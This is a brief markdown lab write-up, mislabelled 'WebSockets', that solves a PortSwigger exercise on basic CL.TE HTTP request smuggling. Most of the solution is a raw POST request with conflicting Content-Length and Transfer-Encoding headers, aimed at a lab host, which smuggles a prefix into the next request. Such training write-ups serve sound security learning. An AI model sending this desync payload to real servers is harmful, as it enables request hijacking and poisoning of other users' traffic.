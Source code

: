 <!-- omit in toc -->
# WebSockets

<!-- omit in toc -->
## Table of Contents

- [HTTP request smuggling, basic CL.TE vulnerability](#http-request-smuggling-basic-clte-vulnerability)

## HTTP request smuggling, basic CL.TE vulnerability
Reference: https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te

<!-- omit in toc -->
### Quick Solution
As said in the title this website is vulnerable to a simple CL.TE vulnerability. Everything in the next paragraph.

<!-- omit in toc -->
### Solution
Using Burp Repeater, issue the following request twice:

```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```
The second response should say: ``Unrecognized method GPOST``.
